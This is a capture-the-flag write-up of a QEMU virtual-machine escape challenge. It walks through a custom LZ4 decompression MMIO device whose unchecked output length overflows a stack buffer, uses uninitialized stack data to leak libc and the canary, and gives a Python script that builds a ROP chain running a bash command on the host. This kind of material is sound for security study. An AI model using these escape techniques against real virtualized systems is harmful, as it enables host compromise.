# The Great Escape 

I think this is a great challenge from `@nobodyisnobody` as how brilliant it is after trials and tribulations getting through it.

In addition, if you want to study more of how to escape VMs, I recommend you to deal with this challenge. It would be very fascinating, and I have learnt a bunch of new stuffs so far.

## Inspecting code and finding holes


When I see the provided binary, I guess my future will be painful and agonizing ...

But no matter, let's check more

We were given source code, so it didn't take any time to reverse the code.
`virt_lz4dev.c`
```c
/*
 * Virtual LZ4 Device
 *
 * Copyright (c) 2017 Milo Kim <woogyom.kim@gmail.com>
 *
 * This program is free software; you can redistribute it and/or
 * modify it under the terms of the GNU General Public License
 * as published by the Free Software Foundation; either version 2
 * of the License, or (at your option) any later version.
 *
 * This program is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with this program; if not, see <http://www.gnu.org/licenses/>.
 *
 */

#include "qemu/osdep.h"
#include "hw/irq.h"
#include "hw/qdev-properties.h"
#include "hw/sysbus.h"
#include "hw/virtio/virtio.h"
#include "migration/qemu-file-types.h"
#include "qemu/host-utils.h"
#include "qemu/module.h"
#include "sysemu/kvm.h"
#include "sysemu/replay.h"
#include "hw/virtio/virtio-mmio.h"
#include "qemu/error-report.h"
#include "qemu/log.h"
#include "trace.h"
#include "hw/hw.h"
#include "exec/memory.h"
#include "exec/address-spaces.h"
#include "qemu/bitops.h"

#define TYPE_VIRT_LZ4DEV          "virt-lz4dev"
#define VIRT_lz4dev(obj)          OBJECT_CHECK(Virtlz4devState, (obj), TYPE_VIRT_LZ4DEV)

/* Register map */
#define LZ4DEV_OFFSET_ID 0x00
#define LZ4DEV_OFFSET_LEN 0x08
#define LZ4DEV_OFFSET_TRIGGER 0x10
#define LZ4DEV_INBUF 0x20

#define REG_ID                 0x0
#define CHIP_ID                0xf001

#define INT_ENABLED            BIT(0)
#define INT_BUFFER_DEQ         BIT(1)

typedef struct {
    SysBusDevice parent_obj;
    MemoryRegion iomem;
    qemu_irq irq;
    hwaddr dst;
    hwaddr len;
    char inbuf[4096];

} Virtlz4devState;

extern uint64_t lz4dec_x86_64(void *dst, void *src, void *srcend);
uint64_t lz4_cmd_decompress(Virtlz4devState *s, char *dst);

uint64_t lz4_cmd_decompress(Virtlz4devState *s, char *dst)
{
    uint64_t res;

	res = lz4dec_x86_64(dst, s->inbuf, s->inbuf+s->len);
	memcpy(&s->inbuf[0], dst, (res > 4096) ? 4096 : res);
	return res;
}

static uint64_t virt_lz4dev_read(void *opaque, hwaddr offset, unsigned size)
{
	Virtlz4devState *s = (Virtlz4devState *)opaque;
	uint64_t data;

        if ((offset>=0x20) && (((offset-0x20)+size)<4096))
        {
		data = 0;
                memcpy(&data, &s->inbuf[offset-0x20], size);
                return data;
        }

    switch (offset) {
    case LZ4DEV_OFFSET_ID:
        return 0xdeadbeef;
    case LZ4DEV_OFFSET_LEN:
        return s->len;
    default:
        break;
    }
    return 0;
}

static void virt_lz4dev_write(void *opaque, hwaddr offset, uint64_t value,
                          unsigned size)
{
Virtlz4devState *s = (Virtlz4devState *)opaque;
uint64_t data;
char outbuf[4096];

	if ((offset>=0x20) && (((offset-0x20)+size)<0x800))
	{
		data = value;
		memcpy(&s->inbuf[offset-0x20], &data, size);
		return;
	}

    switch (offset) {
    case LZ4DEV_OFFSET_LEN:
		if ((hwaddr)value < 2048)
			s->len = (hwaddr)value;
        break;
    case LZ4DEV_OFFSET_TRIGGER:
		// return decompressed size in s->len
		s->len = (hwaddr)lz4_cmd_decompress(s, outbuf);
        break;
    default:
        break;
    }
}

static const MemoryRegionOps virt_lz4dev_ops = {
    .read = virt_lz4dev_read,
    .write = virt_lz4dev_write,
    .endianness = DEVICE_NATIVE_ENDIAN,
};

static void virt_lz4dev_realize(DeviceState *d, Error **errp)
{
    Virtlz4devState *s = VIRT_lz4dev(d);
    SysBusDevice *sbd = SYS_BUS_DEVICE(d);

    memory_region_init_io(&s->iomem, OBJECT(s), &virt_lz4dev_ops, s, TYPE_VIRT_LZ4DEV, 0x1000);
    sysbus_init_mmio(sbd, &s->iomem);
    sysbus_init_irq(sbd, &s->irq);
}

static void virt_lz4dev_class_init(ObjectClass *klass, void *data)
{
    DeviceClass *dc = DEVICE_CLASS(klass);

    dc->realize = virt_lz4dev_realize;
}

static const TypeInfo virt_lz4dev_info = {
    .name          = TYPE_VIRT_LZ4DEV,
    .parent        = TYPE_SYS_BUS_DEVICE,
    .instance_size = sizeof(Virtlz4devState),
    .class_init    = virt_lz4dev_class_init,
};

static void virt_lz4dev_register_types(void)
{
    type_register_static(&virt_lz4dev_info);
}

type_init(virt_lz4dev_register_types)
```

lz4dec_x86_64.s
```x86asm
	.globl lz4dec_x86_64
	.intel_syntax noprefix
//
// https://github.com/nobodyisnobody/tools/tree/main/Assembly.Decompression.Stubs#2--lz4-compression
// small lz4 decompression stub in x86_64 assembly (60 bytes)
// lz4dec_x86_64(void *dst, void *src, void *srcend);
lz4dec_x86_64:
	push rcx
	push rbx
	push rdi
.l0:
	xor ecx,ecx
	xor eax,eax
	lodsb
	movzx	ebx,al
.cpy:
	shr al,4
	call buildfullcount
	rep movsb
	cmp rsi,rdx
	jae .done2
.copymatches:
	lodsw
	xchg ebx,eax
	and al,15
	call buildfullcount
.matchcopy:
	push rsi
	push rdi
	pop rsi
	sub rsi,rbx
	add ecx,4
	rep movsb
	pop rsi
	jmp .l0

buildfullcount:
	cmp al,15
	xchg ecx,eax
	jne .done1
.buildloop:
	lodsb
	add ecx,eax
	cmp al,255
	je .buildloop
.done1:
	ret
.done2:
	push rdi
	pop rax
	pop rdi
	sub rax,rdi
	pop rbx
	pop rcx
	ret
```

`qemu-8.2.0.diff`
```
diff --color -aur qemu-8.2.0/hw/arm/virt.c qemu-8.2.0-patched/hw/arm/virt.c
--- qemu-8.2.0/hw/arm/virt.c	2023-12-19 22:24:34.000000000 +0100
+++ qemu-8.2.0-patched/hw/arm/virt.c	2024-05-25 09:51:45.943761308 +0200
@@ -157,6 +157,7 @@
     [VIRT_PVTIME] =             { 0x090a0000, 0x00010000 },
     [VIRT_SECURE_GPIO] =        { 0x090b0000, 0x00001000 },
     [VIRT_MMIO] =               { 0x0a000000, 0x00000200 },
+    [VIRT_LZ4DEV] =             { 0x0b000000, 0x00000200 },
     /* ...repeating for a total of NUM_VIRTIO_TRANSPORTS, each of that size */
     [VIRT_PLATFORM_BUS] =       { 0x0c000000, 0x02000000 },
     [VIRT_SECURE_MEM] =         { 0x0e000000, 0x01000000 },
@@ -202,6 +203,7 @@
     [VIRT_GIC_V2M] = 48, /* ...to 48 + NUM_GICV2M_SPIS - 1 */
     [VIRT_SMMU] = 74,    /* ...to 74 + NUM_SMMU_IRQS - 1 */
     [VIRT_PLATFORM_BUS] = 112, /* ...to 112 + PLATFORM_BUS_NUM_IRQS -1 */
+    [VIRT_LZ4DEV] = 112 + PLATFORM_BUS_NUM_IRQS,
 };
 
 static const char *valid_cpus[] = {
@@ -1116,6 +1118,38 @@
     }
 }


+static void create_virt_lz4dev_device(const VirtMachineState *vms)
+{
+    MachineState *ms = MACHINE(vms);
+    hwaddr base = vms->memmap[VIRT_LZ4DEV].base;
+    hwaddr size = vms->memmap[VIRT_LZ4DEV].size;
+    int irq = vms->irqmap[VIRT_LZ4DEV];
+    char *nodename;
+
+    /*
+     * virt-lz4dev@0b000000 {
+     *         compatible = "virt-lz4dev";
+     *         reg = <0x0b000000 0x200>;
+     *         interrupt-parent = <&gic>;
+     *         interrupts = <176>;
+     * }
+     */
+
+    sysbus_create_simple("virt-lz4dev", base, qdev_get_gpio_in(vms->gic, irq));
+
+    nodename = g_strdup_printf("/virt_lz4dev@%" PRIx64, base);
+    qemu_fdt_add_subnode(ms->fdt, nodename);
+    qemu_fdt_setprop_string(ms->fdt, nodename, "compatible", "virt-lz4dev");
+    qemu_fdt_setprop_sized_cells(ms->fdt, nodename, "reg", 2, base, 2, size);
+    qemu_fdt_setprop_cells(ms->fdt, nodename, "interrupt-parent",
+                           vms->gic_phandle);
+    qemu_fdt_setprop_cells(ms->fdt, nodename, "interrupts",
+                           GIC_FDT_IRQ_TYPE_SPI, irq,
+                           GIC_FDT_IRQ_FLAGS_LEVEL_HI);
+
+    g_free(nodename);
+}
+
 #define VIRT_FLASH_SECTOR_SIZE (256 * KiB)
 
 static PFlashCFI01 *virt_flash_create1(VirtMachineState *vms,
@@ -2308,6 +2342,7 @@
      * no backend is created the transport will just sit harmlessly idle.
      */
     create_virtio_devices(vms);
+    create_virt_lz4dev_device(vms);
 
     vms->fw_cfg = create_fw_cfg(vms, &address_space_memory);
     rom_set_fw(vms->fw_cfg);
Seulement dans qemu-8.2.0-patched/hw/misc: lz4dec_x86_64.s
diff --color -aur qemu-8.2.0/hw/misc/meson.build qemu-8.2.0-patched/hw/misc/meson.build
--- qemu-8.2.0/hw/misc/meson.build	2023-12-19 22:24:34.000000000 +0100
+++ qemu-8.2.0-patched/hw/misc/meson.build	2023-12-31 03:52:01.645221730 +0100
@@ -1,5 +1,7 @@
 system_ss.add(when: 'CONFIG_APPLESMC', if_true: files('applesmc.c'))
 system_ss.add(when: 'CONFIG_EDU', if_true: files('edu.c'))
+system_ss.add(files('virt_lz4dev.c'))
+system_ss.add(files('lz4dec_x86_64.s'))
 system_ss.add(when: 'CONFIG_FW_CFG_DMA', if_true: files('vmcoreinfo.c'))
 system_ss.add(when: 'CONFIG_ISA_DEBUG', if_true: files('debugexit.c'))
 system_ss.add(when: 'CONFIG_ISA_TESTDEV', if_true: files('pc-testdev.c'))
Seulement dans qemu-8.2.0-patched/hw/misc: virt_lz4dev.c
diff --color -aur qemu-8.2.0/include/hw/arm/virt.h qemu-8.2.0-patched/include/hw/arm/virt.h
--- qemu-8.2.0/include/hw/arm/virt.h	2023-12-19 22:24:34.000000000 +0100
+++ qemu-8.2.0-patched/include/hw/arm/virt.h	2023-12-31 05:00:08.097627518 +0100
@@ -76,6 +76,7 @@
     VIRT_ACPI_GED,
     VIRT_NVDIMM_ACPI,
     VIRT_PVTIME,
+    VIRT_LZ4DEV,
     VIRT_LOWMEMMAP_LAST,
 };
```

**Note: I prefer you to have some backgrounds about what is MMIO, PIO, how we can interact with QEMU through QEMU devices. This writeup is not for beginners, so please consider**
Okay, I will summarize the device added and what we can do in this vulnerable QEMU
- First, this device contains a bizarre function, which allows us to decompress our input
- We will communicate with the host through mmio, and the base address of mmio is `0x0b000000`, as specified in the `diff` file
### Analysis of MMIO handling
```c
static uint64_t virt_lz4dev_read(void *opaque, hwaddr offset, unsigned size)
{
	Virtlz4devState *s = (Virtlz4devState *)opaque;
	uint64_t data;

        if ((offset>=0x20) && (((offset-0x20)+size)<4096))
        {
		data = 0;
                memcpy(&data, &s->inbuf[offset-0x20], size);
                return data;
        }

    switch (offset) {
    case LZ4DEV_OFFSET_ID:
        return 0xdeadbeef;
    case LZ4DEV_OFFSET_LEN:
        return s->len;
    default:
        break;
    }
    return 0;
}
```
For `virt_lz4dev_read`, it is easy to understand, the most remarkable point is that it will copy the data from an `inbuf` element, but they have sanitized our input, so move on to mmio write.

```c
static void virt_lz4dev_write(void *opaque, hwaddr offset, uint64_t value,
                          unsigned size)
{
Virtlz4devState *s = (Virtlz4devState *)opaque;
uint64_t data;
char outbuf[4096];

	if ((offset>=0x20) && (((offset-0x20)+size)<0x800))
	{
		data = value;
		memcpy(&s->inbuf[offset-0x20], &data, size);
		return;
	}

    switch (offset) {
    case LZ4DEV_OFFSET_LEN:
		if ((hwaddr)value < 2048)
			s->len = (hwaddr)value;
        break;
    case LZ4DEV_OFFSET_TRIGGER:
		// return decompressed size in s->len
		s->len = (hwaddr)lz4_cmd_decompress(s, outbuf);
        break;
    default:
        break;
    }
}
```
```c
uint64_t lz4_cmd_decompress(Virtlz4devState *s, char *dst);

uint64_t lz4_cmd_decompress(Virtlz4devState *s, char *dst)
{
    uint64_t res;

	res = lz4dec_x86_64(dst, s->inbuf, s->inbuf+s->len);
	memcpy(&s->inbuf[0], dst, (res > 4096) ? 4096 : res);
	return res;
}
```
Okay, delve into `lz4_cmd_decompress`. This function is only in charge of decompressing our input, and print out the content of our compressed lz4 file. 
The only thing I found is the return address of this function is `res`, will be passed to `s->len` , and no valid check whether `res` is larger than 4096 or not
-> **Buffer overflow**

## What is LZ4 and how to compress a file to lz4 format?

Okay, `LZ4` is simply known as one of the most popular way to compress a file based on (mostly) size of this program. The final target of this algorithm is to reduce as much as possible the size of a file

Author also provides us with his approach to lessen a file's size, allowing him to upload some big shellcode.
I used his provided repo to compress a file to `lz4` format.
`compress_lz4.py`
```py
import sys
import lz4.block

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python lz4_compress.py <infile> <outfile>")
        sys.exit(1)
    data = open(sys.argv[1],'rb').read()
    compressed = lz4.block.compress(data, mode='high_compression', acceleration=0, compression=12, store_size=False, return_bytearray=False)
    with open(sys.argv[2], 'wb') as f_out:
        f_out.write(compressed)
```
Generate a file with large size
`auto.py`
```py
import os
from pwn import *
s = cyclic(4104)

f = open("haha", "wb")
f.write(s)
```


After decompressing a file, `rax` is `0x1009`, which is what we aimed.
With that way, I easily crashed QEMU just by making my decompressed file larger than 4104B, and inside that file I put some random string




## Arbitrary read?


With only buffer overflow appeared, how can we achieve RCE when there is canary, PIE, and libc?

I have constantly been under a long time of suffocating... But I found one thing

I will try creating a smaller file, but set `s->len` to a larger value.



I created a file with only 24B, and then inspected the return value of `lz4dec_x86_64` 

The file was only 24 bytes, but I set `s->len` to 2040, which will make `rax` become a very large value

What does that affect?



`Memcpy` will copy until reach `0xab1` as the image says
Let's check stack frame right now

Some libc, and also stack frame are here. Because the code doesn't memset the stack, so we can achieve `uninitialized variable`
We need libc, canary and also the stack when in `lz4dec_x86_64` for later arbitrary write



## Arbitrary write
Okay, this is easy with leaked libc and canary, we can simply do ROP by creating another lz4 file.
One tiny note is that the second lz4 file should contain an arbitrary command, followed by sequence of same letters, so this will make the file shorter and add canary, then ROP under that sequence

```py
import os
from pwn import *

s = b"/bin/bash -c '/bin/bash 0>&1'\0"
s += b'A' * (0x1008 - len(s))
s += p64(int(sys.argv[2], 16)) # canary
s += p64(0) * 3
libc = int(sys.argv[1], 16)
s += p64(0x000000000010f75b + libc)
s += p64(int(sys.argv[3], 16)) #cmd
s += p64(0x000000000010f75c + libc)
s += p64(libc + 0x58740)
f = open("haha2", "wb")
f.write(s)

```
Exploit can be found at [Exploit](./exp.c)

**Exploit usage**
- `./exp 1` (specify 1 argument for arbitrary read)
- `./exp 1 2` (specify 2 arguments for getting RCE)




